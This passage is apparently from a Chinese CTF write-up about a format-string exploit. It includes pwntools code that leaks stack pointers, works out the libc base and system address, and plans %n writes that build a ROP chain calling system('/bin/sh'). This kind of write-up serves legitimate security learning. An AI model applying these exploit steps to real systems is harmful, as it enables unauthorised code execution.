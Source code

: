   ```
    第七个(`%7$p`)指向main函数返回地址**__libc_start_main()的231偏移处**，溢出该值，可以计算得到`__libc_start_main()`的起始地址，进而得到`libc基址和system函数地址`
  
    ```python
    # get pop_rdi_ret and ret(这里的ret之后再说)
    sh.sendline('%6$p')
    pop_rdi_ret=int(sh.recv()[0:-1],16)-0x30+0x93
    ret=pop_rdi_ret-0x893+0x626
    
    log.info("pop_rdi_ret   --> [%s]"%hex(pop_rdi_ret))
    
    # get ret_addr————__libc_csu_init()+231
    sh.sendline('%7$p')
    ret_addr=int(sh.recv()[0:-1],16)
    
    log.info("ret_addr    --> [%s]"%hex(ret_addr))
    
    # get libcbase and system_addr
    libc_start_main=ret_addr-231
    libc=LibcSearcher('__libc_start_main',libc_start_main)
    libcbase=libc_start_main-libc.dump('__libc_start_main')
    
    log.info("libc_base   --> [%s]"%hex(libcbase))
    
    system_addr=libcbase+libc.dump('system')
    log.info("system_addr --> [%s]"%hex(system_addr))
    ```
  
- 但是我们不仅要读出来还要写进去啊，来看栈结构：
  
  ![stack](http://img.luooofan.site/20210927-162228-TIM20200422220839.png)
  
  也就是说：**可以通过`...%9$n`来改写 0x7fffffffded8(第一个框)地址 所指向的 0x7fffffffdfa8(第二个框)中所存的数据**
  
  就好比以第一个框为跳板，改写第二个框中数据（通过**...%9$n**），使其指向我们想要修改的地址，然后通过第二个框 来改写 我们想要修改的地址处的数据（通过**...%35$n**）
  
  这就好办了，我们想要修改的地址就是**从main的返回地址开始**的一条ROP链，也就是从图中第二行开始，预计是（之所以说预计是因为后面会有小修改）
  
    - 改`dec8`（设为addr1）：pop_rdi_ret的地址
    - 改`ded0`（设为addr2）：/bin/sh字符串的地址
    - 改`ded8`（设为addr3）：system函数的地址
  
- 我们来缕一缕怎么实现这几个写操作：
  
    - 首先溢出`ded8`处的数据，通过**%9$p**即可，目的是得到当前栈的位置
    
    - 溢出该数据后，可以通过运算得到当前栈中(rbp+8)的地址，也就是上面说的**addr1**
      
      同时可以得到addr2，addr3的地址（是栈的地址而不是栈中存储的地址）
      
    - **注意：这里为了方便易看直接写成%int(...)c%xx$n的形式，同时也基于code的时候把细节实现封装为函数，实际上并非如此，详见代码**
    
    - 通过 **%int(addr1)c%9$n** 使`dfa8`指向 **addr1**
      
      通过 **%int(pop_rdi_ret)c%35$n** 将addr1中存储的数据改为 **pop_rei_ret指令段的地址**
      
    - 通过 **%int(addr2)c%9$n** 使`dfa8`指向 **addr2**
      
      通过 **%int(binsh_ret)c%35$n** 将addr1中存储的数据改为 **binsh字符串的地址**
      
    - 诶这里好像出现个问题，我们是通过`ded8`为跳板来实现任意地址写操作的，现在按预计来说要改`ded8`的地址，那岂不是乱套了？不慌，既然我们可以任意地址写，那就造一个新的跳板
    
    - 通过 **%int(addr1+32)c%9$n** 使`dfa8`指向 **addr1+32** 
  ```